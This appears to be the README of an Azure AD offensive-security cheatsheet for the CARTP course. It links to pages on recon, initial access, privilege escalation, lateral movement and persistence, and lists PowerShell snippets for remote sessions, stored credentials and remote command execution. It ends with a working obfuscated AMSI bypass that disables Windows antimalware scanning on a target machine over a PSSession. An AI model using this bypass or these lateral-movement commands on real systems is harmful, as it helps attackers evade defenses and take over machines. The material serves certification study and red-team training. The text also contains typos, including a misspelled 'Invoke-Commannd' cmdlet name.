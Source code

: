 # CARTP-cheatsheet
Azure AD cheatsheet for the CARTP course

# Sumarry
* [General](#General)
* [Recon \ OSINT](recon.md)
* [Initial access attacks](initial-access-attacks.md)
* [Authenticated enumeration](Authenticated-enumeration.md )
* [Privilege Escalation](privilege-escalation.md)
* [Cloud <-> On-Prem - Lateral Movement](Cloud-OnPrem-lateral-movement.md)
* [Persistence](persistence.md)

# General
#### Access C disk of a computer (check local admin)
```
ls \\<COMPUTERNAME>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<NAME>"
```

#### Save Credentials
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

## PSSession
#### Save pssession in variable
```
$sess = New-PSSession -Credential $creds -ComputerName <IP>
```

#### Run commands on machine
```
Invoke-Commannd -ScriptBlock {COMMAND} -Session $sess
```

#### Load script on machine
```
Invoke-Commannd -Filepath <PATH TO SCRIPT> -Session $sess
```

#### Copy item through PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### AMSI bypass on machine
```
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} -Session $sess
```
